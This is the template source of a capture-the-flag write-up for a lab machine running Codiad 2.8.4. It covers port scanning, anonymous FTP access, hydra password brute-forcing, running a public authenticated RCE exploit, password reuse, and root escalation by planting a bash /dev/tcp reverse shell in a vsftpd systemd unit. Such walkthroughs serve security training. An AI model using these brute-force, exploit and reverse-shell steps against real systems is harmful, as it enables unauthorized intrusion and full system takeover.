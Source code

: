 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start off by scanning all the ports.")}}

{{console("nmap -T5 -p- -sC -sV 10.10.0.210", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-17 08:36 CET
Warning: 10.10.0.210 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.0.210
Host is up (0.080s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.1.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("We discover 3 open ports: ")}}

{{list(['21 (FTP)', '22 (SSH)', '62337 (HTTP)'])}}

{{text("Let's begin by checking the FTP service.")}}

{{text("It allows us to log in anonymously by using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>anonymous:anonymous</code> as our credentials.")}}

{{text("Inside we can find a folder named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>...</code> in which is a file named <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>-</code>. Pretty strange names.")}}

{{text("We can download the file using the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>get</code> command.")}}

{{text("In order to read the file let's change it's name to something normal using either the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>mv</code> or <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>cp</code> command.")}}

{{console("cat file", "Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.")}}

{{text("We found 2 usernames, <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> and <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code>. The note also informs us about a password change to the default one, meaning it should be easy to guess.")}}

{{header("Shell as www-data", "shell-as-www-data")}}

{{text("We proceed to the web page on port 62337, probably looking for some kind of login form.")}}

{{image("../../static/writeups/ide/images/000001.jpg")}}

{{text("It's probably possible for us to guess user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>john</code> password, but let's use <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>hydra</code> to brute-force it.")}}

{{console("hydra -l john -P /usr/share/wordlists/rockyou.txt 10.10.0.210 -s 62337 http-post-form '/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password'", "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-17 09:10:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.0.210:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^:Incorrect Username or Password
[62337][http-post-form] host: 10.10.0.210   login: john   password: [REDACTED]
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-17 09:10:20")}}

{{text("Knowing the password, we can log in.")}}

{{image("../../static/writeups/ide/images/000002.jpg")}}

{{text("Now we can search for any known exploits for <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>Codiad 2.8.4</code>.")}}

{{text("I came across this.")}}

{{link("https://www.exploit-db.com/exploits/49705", "https://www.exploit-db.com/favicon.ico", "Codiad 2.8.4 - Remote Code Execution (Authenticated)")}}

{{text("Let's copy the exploit onto our machine and run it.")}}

{{console("python3 exploit.py http://10.10.192.150:62337/ john password 10.9.1.157 1234 linux", "[+] Please execute the following command on your vps: 
echo 'bash -c 'bash -i >/dev/tcp/10.9.1.157/1235 0>&1 2>&1'' | nc -lnvp 1234
nc -lnvp 1235
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {'status':'success','data':{'username':'john'}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {'status':'success','data':{'name':'CloudCall','path':'\/var\/www\/html\/codiad_projects'}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...
{'status','error','message':'No Results Returned'}
[+] Exploit finished!
[+] Enjoy your reverse shell!")}}

{{text("Now we have a reverse shell on the target.")}}

{{image("../../static/writeups/ide/images/000003.jpg")}}

{{header("Shell as drac", "shell-as-drac")}}

{{text("While looking through the system, I accessed user's <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>drac</code> home directory.")}}

{{text("There was a flag, which I couldn't read and a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>.bash_history</code> file which contents were not getting deleted.")}}

{{image("../../static/writeups/ide/images/000004.jpg")}}

{{text("We got a password to MySQL database, I wondered if this user reused his passwords and I tried to log in as him.")}}

{{image("../../static/writeups/ide/images/000005.jpg")}}

{{text("Seems like my theory was right.")}}

{{header("Shell as root", "shell-as-root")}}

{{text("Since I had my current user's password, I checked his sudo privilages.")}}

{{console("sudo -l", "Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart")}}

{{text("I checked if we have write permissions to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/lib/systemd/system/vsftpd.service</code> file and we do.")}}

{{text("If we edit this file, then upon restarting the service the edited code will execute.")}}

{{text("Meaning we just have to insert a reverse shell somewhere inside of this file.")}}

{{console("", "[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.9.1.157/1235 0>&1'
ExecReload=/bin/kill -HUP $MAINPID
ExecStartPre=-/bin/mkdir -p /var/run/vsftpd/empty

[Install]
WantedBy=multi-user.target")}}

{{text("Now let's use the sudo command.")}}

{{console("sudo /usr/sbin/service vsftpd restart", "Warning: The unit file, source configuration file or drop-ins of vsftpd.service changed on disk. Run 'systemctl daemon-reload' to reload units.")}}

{{text("We follow the instructions and execute the command provided.")}}

{{text("Now when we run the sudo command again, we should get a reverse shell and be able to read the last flag.")}}

{{image("../../static/writeups/ide/images/000006.jpg")}}

{{script()}}